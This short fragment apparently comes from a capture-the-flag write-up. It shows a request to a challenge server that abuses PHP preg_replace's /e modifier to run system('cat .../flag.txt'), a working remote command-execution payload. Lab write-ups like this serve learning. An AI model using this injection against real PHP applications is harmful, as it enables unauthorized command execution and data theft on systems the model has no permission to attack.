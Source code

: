 http://35.246.227.46:31872/index.php?vector=/Admin/e&replace=system(%22cat%20here_we_dont_have_flag/flag.txt%22)  Substitute
